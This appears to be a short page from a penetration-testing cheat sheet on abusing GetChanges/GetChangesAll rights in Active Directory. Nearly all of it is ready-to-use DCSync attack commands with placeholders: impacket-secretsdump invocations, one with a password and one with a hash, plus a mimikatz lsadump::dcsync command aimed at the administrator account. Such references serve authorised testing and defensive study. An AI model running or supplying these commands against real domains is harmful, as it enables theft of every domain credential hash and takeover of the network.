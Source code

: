 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["GetChanges", "GetChangesAll", "dcsync", "secretsdump", "active driectory", "ad", "Windows"]
---
```


#### Abuse #1: DCSync Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# With creds
impacket-secretsdump -just-dc '<USER>:<PASSWORD>@<TARGET>'
```

```console
# With hashes
impacket-secretsdump -hashes <HASH> -just-dc '<DOMAIN>/<USER>@<TARGET>'
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

</div>

{{< /tabcontent >}}

<br>